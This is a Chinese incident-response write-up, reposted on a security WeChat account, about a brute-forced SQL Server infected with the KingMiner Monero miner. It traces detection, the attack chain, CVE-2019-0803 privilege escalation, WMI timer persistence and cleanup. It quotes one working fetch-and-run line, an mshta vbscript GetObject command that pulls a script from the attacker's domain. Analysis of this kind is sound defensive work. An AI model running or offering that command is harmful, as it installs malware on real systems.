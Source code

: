 #  【实战】记一次实战“恶意外连”事件的应急响应

聚焦网络安全分享  [ 安全聚 ](javascript:void\(0\);)

**安全聚** ![]()

微信号 sec-poly

功能介绍 安全聚-聚焦发力于网络安全技术分享。

____

___发表于_

收录于合集

记一次实战“恶意外连”事件的应急响应

## 事件背景

忙碌了一天的沐师傅正准备下班，突然一个电话响起XX局被通报《"恶意外连"事件》，需要马上前往客户现场进行应急排查。于是乎沐师傅Wuwuuwu～，背起书包奔赴客户现场。

## 应急排查

### 沟通交流

到达现场后，通过与运维人员沟通了解事件原委：客户收到了国家局通报称本单位有服务器/主机IP为`111.x.x.x`存在与恶意域名`news.g23xxx.com`进行通信行为，疑似遭受木马病毒攻击，需要应急排查事情原委，定位存在异常的主机/服务器。![](https://gitee.com/fuli009/images/raw/master/public/20230217234358.png)

### 定位异常主机/服务器

得知IP
`x.x.x.x`为客户互联网出口IP地址，且互联网出入口侧无态势等流量检测设备，通过排查负载、IPS、深信服上网行为管理等日志均未发现内网主机服务器与恶意域名news.g23xxx.com、解析IP`（154.x.x.x）`相关访问日志。恶意域名进行分析后发现该恶意域名在威胁情报上被标记为KingMiner挖矿木马，僵尸网络，远控服务器。![](https://gitee.com/fuli009/images/raw/master/public/20230217234416.png)对该恶意域名下的木马样本进行粗略查看，判断该挖矿木马是通过UDP协议进行通信，于是想了个办法，用`Wireshark`旁路到互联网出口上，抓取互联网出口侧全流量，对流量进行过滤筛选`udp
&amp;&amp; frame.contains
"g23xxx"`，终于发现存在恶意外连的流量请求，成功定位到异常服务器，内网IP地址为10.10.10.10（数据共享平台），为一台SQL
Server数据库服务器。![](https://gitee.com/fuli009/images/raw/master/public/20230217234418.png)

### 上机排查

遂即上机进行排查，进行日志、样本的提取，经过分析日志发现该主机存在大量恶意Powershell进程![](https://gitee.com/fuli009/images/raw/master/public/20230217234421.png)在SQL
Server数据库日志中发现该服务器在`2022年3月4日11:17:02`到`2022年5月7日 21:45:15`期间遭受来自境外恶意IP
`62.x.x.x`（俄罗斯莫斯科）、`62.x.x.x`（俄罗斯莫斯科）大量爆破行为，最终爆破成功。![](https://gitee.com/fuli009/images/raw/master/public/20230217234422.png)![](https://gitee.com/fuli009/images/raw/master/public/20230217234425.png)当数据库爆破成功后，该IP在服务器上执行了VBS脚本下载经过`base64编码`的二进制blob文件，经过解码后保存为`C:\\Users\\Public\\Downloads\\\\tool.exe`![](https://gitee.com/fuli009/images/raw/master/public/20230217234428.png)![](https://gitee.com/fuli009/images/raw/master/public/20230217234429.png)经过分析该文件`tool.exe`运行后会利用Windows权限提升漏洞`CVE-2019-0803`进行攻击，成功利用此漏洞的攻击者可以在内核模式下运行任意代码，然后可以安装程序；查看、更改或删除数据；或创建具有完全用户权限的新帐户。`tool.exe`在特权模式下执行命令`mshta.exe
vbscript:GetObject(\\"script:http\[:\]//aa.30583fdae.tk/r1.txt\\")(window.close)`，通过`mshta.exe`执行脚本`r1.txt`来进行持久化。其中`tool.exe`所请求域名`aa.30583xxxx.tk`为门罗币挖矿木马地址，威胁情报已标记为恶意：![](https://gitee.com/fuli009/images/raw/master/public/20230217234434.png)`Tool.exe`文件沙箱分析结果：

![](https://gitee.com/fuli009/images/raw/master/public/20230217234435.png)

行为分析：![](https://gitee.com/fuli009/images/raw/master/public/20230217234437.png)

行为分析图：![](https://gitee.com/fuli009/images/raw/master/public/20230217234439.png)

程序运行示例图：![](https://gitee.com/fuli009/images/raw/master/public/20230217234441.png)

其中下载的`r1.txt`会配置名为`WindowsSystemUpdate
\_WMITimer`的计时器，并将执行一段脚本代码的事件消费者`WindowsSystemUpdate\_consumer`通过事件过滤器`WindowsSystemUpdate\_filter`绑定到计时器，从而通过计时器每15分钟执行一次下面的VBS脚本代码：![](https://gitee.com/fuli009/images/raw/master/public/20230217234444.png)WMI定时任务存在并已清除![](https://gitee.com/fuli009/images/raw/master/public/20230217234446.png)

后续继续跟进分析发现，可能由于挖矿木马解析IP地址变更，或恶意域名不可达等原因，造成挖矿木马所需的部分程序或脚本未能成功下载到本地，经过排查，仅发现此处`tool.exe`所创建的wmi启动项，定时通过`nslookup`查询恶意域名`"news.g23xxx.com"`
DNS记录，造成本服务器访问恶意域名`"news.g23xxx.com"`触发恶意外连告警。

在此次分析过程中，还发现该服务器还存在其他木马病毒，均已提取出样本并清除：![](https://gitee.com/fuli009/images/raw/master/public/20230217234449.png)![](https://gitee.com/fuli009/images/raw/master/public/20230217234451.png)至此，此次事件初步排查完成，客户已对该服务器进行断网处理，经过全盘木马病毒查杀，启动项删除，并在防火墙上封禁了该恶意域名与IP地址。

## 应急事件总结

【被攻击服务器】：`SQL
Server`服务器，数据共享平台【攻击链路】：攻击者针对`Windows`服务器`MSSQL`进行爆破攻击，爆破入侵成功后，首先执行一段`VBS`脚本，检测操作系统版本，并根据不同的系统版本下载不同的`Payload`文件，利用下载的文件`tool.exe`进行`(CVE-2019-0803)`提权以及门罗币挖矿。同时还会安装`WMI定时器`和`Windows计划任务`来反复执行指定脚本，执行服务器返回的恶意代码达到持久化攻击的目的；【木马病毒类型】：挖矿木马，挖矿类型：`KingMiner`门罗币；【安全设备运行情况】：IPS、深信服上网行为管理、服务器本地“火绒”杀毒软件未检测出异常；【处置情况】：已成功定位存在异常的内网服务器，已做断网处理，已进行全盘查杀、日志提取、样本提取等工作，客户反馈该服务器已闲置，后续不再投入使用；【持续监控】：后续将部署态势感知设备，对恢复后的网站持续监测。

  

  

  

  

END

  

转载免责

  
  
  

 **本文作者：** F1ne

 **转载来自：** forum.butian.net

  

 **转载声明：** 本文章转载来源于"奇安信攻防社区"如有侵权请告知，我们会第一时间删除处理。

 **  
免责声明：** 本公众号提供的文章内容仅供参考学习用途，禁止使用该文章用于非法用途，造成任何直接或间接的后果及损失由使用者承担。安全聚作者不承担任何责任。

微信：silentsec

 **关注"安全聚"获得更多精华文章**

![](https://gitee.com/fuli009/images/raw/master/public/20230217234452.png)

  

  

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

